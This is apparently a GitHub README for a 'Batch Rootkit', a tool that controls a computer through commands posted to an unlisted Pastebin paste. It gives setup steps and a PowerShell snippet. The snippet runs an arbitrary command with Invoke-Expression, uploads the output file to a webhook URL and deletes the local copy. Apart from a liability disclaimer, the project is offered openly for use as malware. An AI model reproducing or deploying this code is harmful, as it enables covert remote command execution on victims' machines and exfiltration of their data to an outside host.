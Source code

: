 # Batch Rootkit
> __Note__ 
> **If you are utilizing my program for commercial purposes, kindly provide attribution to my GitHub account.**

> __Warning__ 
> **I hereby declare that I am not liable for any damages caused by the program. If you experience any problems with my code, feel free to reach out to me on Discord.**

## Contact
In case you require any assistance with your project, please do not hesitate to contact me on Discord.
**Code613 on discord**

## About project
Batch rootkit is using pastebin paste to control computer. You can use all powershell and cmd commends.

##How to use
1. Create account on Create paste on https://pastebin.com/
2. Create paste on https://pastebin.com/
3. Make paste to unlisted
4. Change your webhook url and commend that you want to use
```PowerShell
$webhookUrl = "Your webhook url"
$outputFile = "output.txt"
$command = "Commend you want to use"
Invoke-Expression "$command | Out-File -FilePath $outputFile"
#tasklist | Out-File -FilePath $outputFile
$client = New-Object System.Net.WebClient
$client.UploadFile($webhookUrl, $outputFile)
Remove-Item $outputFile
 ```
5. To make cmd commend use ```cmd /c``` 

